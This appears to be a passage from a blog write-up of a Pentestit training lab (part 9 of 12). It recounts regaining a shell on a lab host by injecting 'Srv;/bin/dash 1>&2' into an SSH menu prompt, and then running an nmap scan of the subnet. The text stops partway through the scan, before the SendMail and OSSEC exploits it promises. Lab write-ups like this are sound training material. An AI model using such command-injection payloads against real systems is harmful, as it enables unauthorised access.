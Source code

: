 ```yaml
---
layout: single
title: "Pentestit Lab v11 - ClamAV Token (9/12)"
header:
  overlay_image: gds-banner.jpg
  caption: "[__Pentestit Lab__](https://lab.pentestit.ru/)"
related: true
comments: true
---
```


In my previous post "[Pentestit Lab v11 - Cloud Token (8/12)](https://jhalon.github.io/pentestit-lab-11-cloud-token/)", we utilized tcpdump for Network Reconnaissance on the compromised __192.168.10.1__ machine, accessed the cloud server via intercepted credentials, cracked a KeePass Password Hash, and found our eighth token. Today we will go back and footprint the __192.168.11.X__ subnet to see if we missed anything - which will include the following:

* Footprinting the 192.168.11.X Subnet
* Exploiting a Remote Command Execution Vulnerability in SendMail
* Exploiting a Privilege Escalation Vulnerability in OSSEC
* Finding the ClamAV Token

## Footprinting the 192.168.11.X Subnet

If you recall correctly, in my previous post we compromised __192.168.10.1__ and were able to receive our Cloud token. After I was done, I decided to fall back to the __192.168.11.1__ device and enumerate the subnet to see if any of the other __192.168.11.x__ devices were running anything of interest.

To do so, let's simply SSH back into the device, and exploit the command injection vulnerability to get a interactive shell.

```console
root@kali:~/pentestit# ssh -i remote.key remote@192.168.11.1
########################################
Enter ServerName or Q for exit:
########################################
Srv1
Srv2
########################################
Enter VM name for connect: Srv;/bin/dash 1>&2
cat: /opt/gh/Srv: No such file or directory
$ bash
##########################
PasswordAuthentication no
##########################
remote@tl11-192-168-11-1:~$ 
```

Great, now that we have our shell let's go ahead and run an Nmap scan for the local subnet.

```console
remote@tl11-192-168-11-1:~$ nmap -sV -Pn -n 192.168.11.1-5

Starting Nmap 6.47 ( http://nmap.org ) at 2017-07-27 02:29 MSK
Nmap scan report for 192.168.11.1
Host is up (0.0020s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.11.2
Host is up (0.0032s latency).
Not shown: 999 filtered ports
```